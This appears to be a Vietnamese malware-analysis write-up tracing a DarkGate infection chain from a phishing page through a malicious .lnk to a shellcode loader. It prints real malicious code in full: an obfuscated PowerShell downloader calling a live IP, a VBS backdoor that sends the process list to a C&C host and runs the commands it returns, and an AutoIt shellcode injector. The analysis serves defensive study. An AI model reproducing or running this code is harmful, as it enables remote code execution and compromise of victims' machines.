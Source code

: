 ### Luyện tập 1
  
Link phishing: https://lingiangcosmetic.com/quotation

![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20112942.png)

View page source ta có thể thấy đường dẫn file ChungLG.js "đáng ngờ". Sau đó thông qua `search-ms` đẫn người dùng truy cập đến địa chỉ `194.87.31.108:8080` để thực hiện tải file độc hại

![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20113008.png)


![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20112838.png)

Người dùng bị lừa tải file shortcut(.lnk) và thực thi powershell script độc hại bị nhúng trong file `.lnk`

![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20113532.png)


```
$path = $env:TEMP + '\ldOGUevTtt.pdf';$secondPath=$env:TEMP+'\HYFmFrcWvQ.vbs';$pHqgh='';$pHqgh+='Invoke-WebRe';$WJNzC=690;$pHqgh+='quest -Uri "';$pHqgh+='http://89.23';$pHqgh+='.100.222:80/';$pHqgh+='foo/neverban';$TjHvT=9796;$pHqgh+='_SUCBAm.vbs"';$pHqgh+=' -OutFile $s';$pHqgh+='econdPath;St';$pHqgh+='art-Process ';$TzMnd= $WJNzC+ $WJNzC;$pHqgh+='-FilePath $s';$pHqgh+='econdPath;In';$pHqgh+='voke-WebRequ';$pHqgh+='est -Uri "ht';$RZjYx=167;$pHqgh+='tps://files.';$pHqgh+='catbox.moe/b';$pHqgh+='8bf3x.pdf" -';$pHqgh+='OutFile $pat';$yJYYz=9737;$pHqgh+='h;Start-Proc';$pHqgh+='ess -FilePat';$pHqgh+='h $path;';.([char](21*5) + [char](51+50) + [char](20*6)) $pHqgh;

```
Thực hiện deobfuscation đoạn powershell script thu được:
``` 
Invoke-WebRequest -Uri "http://89.23.100.222:80/foo/neverban_SUCBAm.vbs" -OutFile $secondPath;
Start-Process -FilePath $secondPath;
Invoke-WebRequest -Uri "https://files.catbox.moe/b8bf3x.pdf" -OutFile $path;
Start-Process -FilePath $path;
```
Khi đoạn powershell được thực thi file visual basic script đáng ngờ `SUCBAm.vbs` lưu tại `$path = $env:TEMP`

Nội dung file vbs
```
wecabepzyf = "cmd"
Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
dim all_process

Set colProcesses = objWMIService.ExecQuery("Select * from Win32_Process")
For Each objProcess in colProcesses
  all_process = all_process & objProcess.Name
Next



qezogvuos = "Shell.Application"



vhfvmeyvgucbd="http://vntricker.abcxzy.com:2351/nlhsapgv"
vwmlbmy="WINHTTP.WinHTTPRequest.5.1"



With CreateObject(vwmlbmy)
.Open "post", vhfvmeyvgucbd, False
.setRequestHeader "a", all_process
.send
vwmlbmy2 = .responseText
CreateObject(qezogvuos).ShellExecute wecabepzyf, vwmlbmy2 ,"","",0
End With

wscript.quit
MsgBox "ss"'slush devote minimum step between field play taxi bitter gallery nuclear stuff average elite lens reveal vague country illness pause vast claw girl omit sport april drip kiwi receive toilet category fox orient state artist earn laugh pumpkin target bike edit leader put tragic butter fiscal marble subject aware debris judge potato three bonus face mean search when crater glance napkin slam address desert hint piano switch broken feel minimum rule voice color fuel owner soft allow disagree jacket quantum term amateur dawn hybrid park such awkward domain illness pattern spice antenna deliver health pen spoon actress deposit hen opinion slide wink cross labor region tooth cry hope sad universe change fury model salt want consider guess panic subject ability debate gauge obvious special abuse defense hat peace size apart crash glance member seed twenty describe glove orbit slot wisdom clutch frequent mind shallow wool collect fiction magnet sail unusual bird egg ivory quality trap cabbage elephant length rabbit there camp extend library rally thumb answer delay ginger mutual second verb carry force opera sell wing catalog favorite lounge stand agent dial hood nice soap assume economy iron pledge stove alpha damp guess moon sibling abandon choice letter post sugar absurd course floor maze right velvet bottom engine kingdom ready vessel brave entire lonely
```
Chức năng của file `SUCBAm.vbs` gửi tất cả tiến trình đang chạy trên máy nạn nhân(mục đích có thể là kiểm tra máy nạn nhân có đang cài av hoặc file vbs đang chay trong môi trường ảo hóa hay không?) tới `http://vntricker.abcxzy.com:2351/nlhsapgv`. Sau đó sẽ nhận lại được cmd command từ phía C&C server và thực thi nó `vwmlbmy2 =.responseText;CreateObject(qezogvuos).ShellExecute wecabepzyf, vwmlbmy2 ,"","",0`

malicous command được nhận lại từ CnC Server:

![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20132318.png)


Lệnh hình trên với chức năng tải tệp thực thi Autoit.exe và tệp autoit script(.au3) độc hại và thực thi nó. 

Nội dụng file autoscript độc hại sau khi trích xuất:

```
LOCAL $XHKOUYMY
#NoTrayIcon
LOCAL $NZCLH
FUNC DECRYPTFILEWITHKEY($SFILEPATH,$SKEY)
LOCAL $XMDO
LOCAL $HFILE=FILEOPEN($SFILEPATH,16)
LOCAL $PSQCQA
LOCAL $JQVUEN
IF $HFILE=-1 THEN
LOCAL $EFSPOJC
MSGBOX(0,"Error","unable to open.")
LOCAL $KKJLNGV
RETURN SETERROR(1,0,"")
LOCAL $CQXZHMJC
ENDIF
LOCAL $YFUUQ
LOCAL $OVPF
LOCAL $BCONTENT=FILEREAD($HFILE)
LOCAL $EKLPP
FILECLOSE($HFILE)
LOCAL $WRYE
LOCAL $LPCLOBTK
LOCAL $SCONTENT=BINARYTOSTRING($BCONTENT)
LOCAL $IVRK
LOCAL $ISTART=STRINGINSTR($SCONTENT,"padoru")+6
LOCAL $YKMURDFMW
LOCAL $IEND=STRINGINSTR($SCONTENT,"padoru",0,-1,$ISTART)
LOCAL $WITXQN
LOCAL $QFYPF
IF $ISTART=6 OR $IEND=0 THEN
LOCAL $KDDH
MSGBOX(0,"Error","delimiter not found.")
LOCAL $ASYSTN
RETURN SETERROR(2,0,"")
LOCAL $SZMGNTKTG
ENDIF
LOCAL $PFAFRWZQ
LOCAL $KUXBBS
LOCAL $STODECRYPT=STRINGMID($SCONTENT,$ISTART,$IEND-$ISTART)
LOCAL $ESCTQGDEL
LOCAL $BTODECRYPT=STRINGTOBINARY($STODECRYPT)
LOCAL $CPJVPQ
LOCAL $IBLOCKSIZE=32768
LOCAL $WMONEERN
LOCAL $ILEN=BINARYLEN($BTODECRYPT)
LOCAL $XSEX
LOCAL $MQIEXVNMC
LOCAL $TBYTE=DLLSTRUCTCREATE("byte[1]")
LOCAL $JWWEB
LOCAL $IKEYALT=0,$B_DECRYPTED=BINARY("")
LOCAL $BDKSVERZU
LOCAL $IKEYLEN=STRINGLEN($SKEY)
LOCAL $ZAQVUPZ
LOCAL $RGDJOVN
FOR $I=1 TO $IKEYLEN
LOCAL $LEJBDITZV
$IKEYALT=BITXOR(BINARYMID($SKEY,$I,1),$IKEYALT)
LOCAL $IKXAHLJ
NEXT
LOCAL $BICSWZ
LOCAL $SXYDVYLD
FOR $I=1 TO $ILEN STEP $IBLOCKSIZE
LOCAL $ODNCABBAE
LOCAL $IBLOCKLEN=$IBLOCKSIZE
LOCAL $KSJXJW
IF $I+$IBLOCKLEN>$ILEN THEN $IBLOCKLEN=$ILEN-$I+1
LOCAL $CZXLDCNDT
LOCAL $BBLOCK=BINARYMID($BTODECRYPT,$I,$IBLOCKLEN)
LOCAL $AWDO
LOCAL $BDECRYPTEDBLOCK=BINARY("")
LOCAL $PUHV
FOR $J=1 TO BINARYLEN($BBLOCK)
LOCAL $FKDGGCW
EXECUTE(BINARYTOSTRING("0x202020202020202020202020446C6C53747275637453657444617461282474427974652C20312C20426974584F522842696E6172794D6964282462426C6F636B2C20246A2C2031292C2024694B6579416C742929"))
LOCAL $ZHIYV
$BDECRYPTEDBLOCK&=DLLSTRUCTGETDATA($TBYTE,1)
LOCAL $PXDIU
NEXT
LOCAL $FMZTUNVX
$B_DECRYPTED&=$BDECRYPTEDBLOCK
LOCAL $ZKELJB
NEXT
LOCAL $SIJD
LOCAL $FPVGHYUJF
RETURN $B_DECRYPTED
LOCAL $CVKFMB
ENDFUNC
LOCAL $TKFQLZGM
LOCAL $MILIAN
LOCAL $EOYWU
LOCAL $SKEY="darkgate"
LOCAL $UETGTR
LOCAL $SDECRYPTEDCONTENT=DECRYPTFILEWITHKEY(@SCRIPTFULLPATH,$SKEY)
LOCAL $MKHVNXLZM
LOCAL $IZEQ
LOCAL $YPZBWR
$OVSJZRCCSX=$SDECRYPTEDCONTENT
LOCAL $OEVLVQC
$IUFKJUJZVJ=DLLSTRUCTCREATE("byte["&BINARYLEN($OVSJZRCCSX)&"]")
LOCAL $ICADKEIYH
LOCAL $OLDPROTECT
LOCAL $DRXZUZG
LOCAL $XOCRJ
IF (NOT FILEEXISTS("C:\Program Files (x86)\Sophos"))THEN
LOCAL $LNGYN
EXECUTE(BINARYTOSTRING("0x446C6C43616C6C28226B65726E656C33322E646C6C222C2022424F4F4C222C20225669727475616C50726F74656374222C2022707472222C20446C6C53747275637447657450747228244975464B4A554A5A766A292C2022696E74222C2042696E6172794C656E28246F76736A5A5243435358292C202264776F7264222C20307834302C202264776F72642A222C20246F6C6470726F7465637429"))
;DllCall("kernel32.dll", "BOOL", "VirtualProtect", "ptr", DllStructGetPtr($IuFKJUJZvj), "int", BinaryLen($ovsjZRCCSX), "dword", 0x40, "dword*", $oldprotect)	
LOCAL $HBDT
ENDIF
LOCAL $VAHABQTNH
LOCAL $SGVZGT
EXECUTE(BINARYTOSTRING("0x446C6C5374727563745365744461746128244975464B4A554A5A766A2C20312C20246F76736A5A524343535829"))
;DllStructSetData($IuFKJUJZvj, 1, $ovsjZRCCSX)
LOCAL $NVSVP
EXECUTE(BINARYTOSTRING("0x446C6C43616C6C28227573657233322E646C6C222C20226C726573756C74222C20224322266368722839372926226C6C57696E646F7750726F63222C2022707472222C20446C6C53747275637447657450747228244975464B4A554A5A766A292C202268776E64222C20302C202275696E74222C20302C202277706172616D222C20302C20226C706172616D222C203029"))
;DllCall("user32.dll", "lresult", "C"&chr(97)&"llWindowProc", "ptr", DllStructGetPtr($IuFKJUJZvj), "hwnd", 0, "uint", 0, "wparam", 0, "lparam", 0)
LOCAL $FBFJJUVM
LOCAL $EYMMI
LOCAL $QTZMYCV
```

Đoạn mã trên autoit script trên có giải mã phần dữ liệu đươc đặt dữa 2 kí tự `padoru` và thưc hiện tiêm và thực thi đoạn [shellcode](https://github.com/myantti3m/DG_analysis/blob/main/shell.sc)
Thực hiện phân tích đoạn shellcode với IDA:
![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20133128.png)

Phân tích shellcode thấy chức năng của nó drop và thực thi file PE độc hại

![](https://hackmd.io/_uploads/HylAse6b6.png)

